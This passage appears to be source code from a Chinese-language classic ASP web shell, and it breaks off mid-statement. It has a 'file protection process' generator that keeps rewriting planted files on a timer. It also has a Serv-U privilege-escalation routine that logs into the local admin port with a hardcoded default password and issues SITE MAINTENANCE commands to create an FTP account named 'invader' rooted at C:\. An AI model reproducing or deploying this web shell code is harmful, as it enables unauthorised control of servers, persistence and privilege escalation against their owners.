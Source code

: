 Application(pass2&"Time")=request("ATime")
Application(pass2&"Char")=request("AChar")
j"<br><br><br><center>保护进程 <font color=yellow>"&pass2&"</font> 生成成功！点击<a style=""text-decoration:underline;font-weight:bold"" href="&URL&"?ProFile="&pass2&" target=_blank>这里</a>启动进程。</center><br>"
Response.End
End If
SI="<br><table border='0' cellpadding='0' cellspacing='0'>"
SI=SI&"<form name='UpForm' method='post' action='"&URL&"?Action=ProFile&Action2=Post'"
SI=SI&"<tr><td valign=top style='line-height:22px' align=right><input type=""hidden"" name=""vvva"" value=""0"">需要保护的文件路径：<br><font color=yellow>可同时保护多个文件&nbsp;&nbsp;<br>每行一个文件路径&nbsp;&nbsp;</font></td><td>"
SI=SI&"<textarea name=""AFile"" cols=""70"" rows=""7"">"&RRePath(Session("FolderPath")&"\test.asp")&"</textarea></td></tr>"
SI=SI&"<tr><td valign=top style=""padding-top:3px;"" align=right>文件代码：</td><td><textarea name=""ACode"" cols=""70"" rows=""7"">文件代码</textarea></td></tr>"
SI=SI&"<tr><td align=right>文件编码：</td><td><input type=""radio"" name=""AChar"" value=""1"" checked />GB2312  <input type=""radio"" name=""AChar"" value=""2"" />UTF-8 (访问文件若出现乱码，请尝试更改编码)</td></tr>"
SI=SI&"<tr><td align=right>保护频率：</td><td><input type=""text"" name=""ATime"" style=""text-align:right"" value=""1"" size=""5"" onkeyup=""value=value.replace(/[^\d]/g,'')"" /> 秒 (最小为1秒，需要保护的文件越多，频率设置越大，否则无法全部保护)</td></tr>"
SI=SI&"<tr><td>&nbsp;</td><td height=50><input type='submit' name='Submit' value='下一步，生成保护进程'></td></tr>"
SI=SI&"</form></table>"
j SI
End Function
Function suftp()
j"<center><br><form name='form1' method='post' action=''><table width='500'><tr align='center' valign='middle'><td colspan='2' id=s><font face=webdings>8</font> <B>集成版本信息</b></td></tr><tr align='center'><td id=d>系统账号：</td><td id=d><input name='duser' type='text' class='TextBox' id='duser' value='LocalAdministrator'></td></tr><tr align='center'><td id=d>系统口令：</td><td id=d><input name='dpwd' type='text' class='TextBox' id='dpwd' value='#l@$ak#.lk;0@P'></td></tr><tr align='center'><td id=d>系统端口：</td><td id=d><input name='dport' type='text' class='TextBox' id='dport' value='43958'></td></tr><tr align='center'><td id=d>新加账号：</td><td id=d><input name='tuser' type='text' class='TextBox' id='tuser' value='invader'></td></tr><tr align='center'><td id=d>新加口令：</td><td id=d><input name='tpass' type='text' class='TextBox' id='pass' value='1'></td></tr><tr align='center'><td id=d>访问路径：</td><td id=d><input name='tpath' type='text' class='TextBox' id='tpath' value='C:\'></td></tr><tr align='center'><td id=d>服务端口：</td><td id=d><input name='tport' type='text' class='TextBox' id='tport' value='21'></td></tr><tr align='center'><td id=d>执行任务：</td><td id=d><input name='radiobutton' type='radio' value='add' checked class='TextBox' id=d>确定添加&nbsp;<input type='radio' name='radiobutton' value='del' class='TextBox' id=d>确定删除</td></tr><tr align='center' valign='middle'><td colspan='2' id=d><input type='submit' name='Submit' value='Just Go'>&nbsp;<input type='reset' name='Submit2' value='Reset'><input name='SUaction' type='hidden' id='action' value='1'></td></tr></table></form></center>"
Usr = request.Form("duser")
pwd = request.Form("dpwd")
port = request.Form("dport")
tuser = request.Form("tuser")
tpass = request.Form("tpass")
tpath = request.Form("tpath")
tport = request.Form("tport")
'Command = request.Form("dcmd")
if request.Form("radiobutton") = "add" Then
leaves = "User " & Usr & vbcrlf
leaves = leaves & "Pass " & pwd & vbcrlf
leaves = leaves & "SITE MAINTENANCE" & vbcrlf
leaves = leaves & "-SETUSERSETUP" & vbcrlf & "-IP=0.0.0.0" & vbcrlf & "-PortNo=" & tport & vbcrlf & "-User=" & tuser & vbcrlf & "-Password=" & tpass & vbcrlf & _
"-HomeDir=" & tpath & "\" & vbcrlf & "-LoginMesFile=" & vbcrlf & "-Disable=0" & vbcrlf & "-RelPaths=1" & vbcrlf & _
"-NeedSecure=0" & vbcrlf & "-HideHidden=0" & vbcrlf & "-AlwaysAllowLogin=0" & vbcrlf & "-ChangePassword=0" & vbcrlf & _
"-QuotaEnable=0" & vbcrlf & "-MaxUsersLoginPerIP=-1" & vbcrlf & "-SpeedLimitUp=0" & vbcrlf & "-SpeedLimitDown=0" & vbcrlf & _
"-MaxNrUsers=-1" & vbcrlf & "-IdleTimeOut=600" & vbcrlf & "-SessionTimeOut=-1" & vbcrlf & "-Expire=0" & vbcrlf & "-RatioUp=1" & vbcrlf & _